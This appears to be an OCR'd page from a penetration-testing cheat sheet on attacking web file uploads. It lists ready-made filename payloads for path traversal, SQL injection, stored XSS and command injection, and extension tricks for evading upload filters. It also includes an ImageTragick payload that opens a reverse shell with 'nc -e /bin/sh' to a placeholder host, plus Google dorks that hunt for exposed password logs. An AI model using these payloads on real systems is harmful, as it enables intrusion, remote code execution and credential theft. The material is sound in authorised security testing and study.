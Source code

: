 ### File Upload Functionality
#### Filename Payloads
```sh
../../../tmp/evil.png  # Test for LFI
sleep(10)-- -.jpg  # Test for SQLi
<svg onload=alert(document.domain)>  # Test for stored XSS
; sleep 10;  # Test for RCE
```

#### Evade File Restrictions
```sh
file.png.php
file.png.Php5
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
file.php/
file.php.\
file.
file.php....
file.pHp5....
file.png.php
file.png.pHp5
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
flile.phpJunk123png
file.png.jpg.php
file.php%00.png%00.jpg
```

#### Magic Bytes
```sh
python -c "print '<signature>'" > <file>
# Hex signature example: \x4D\x5A
```

#### ImageTrick Vulnerability
```text
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/image.jpg"|nc -e /bin/sh <IP> <PORT>)'
pop graphic-context
```

## Enumeration

### Google Dorks
```text
"Info:<url>"
site:<url>
site:<url> -inurl:https
site:<url> -filetype: .
site:<url> filetype:Log allintext:"username" "password"
site:<url> ext:pdf
```
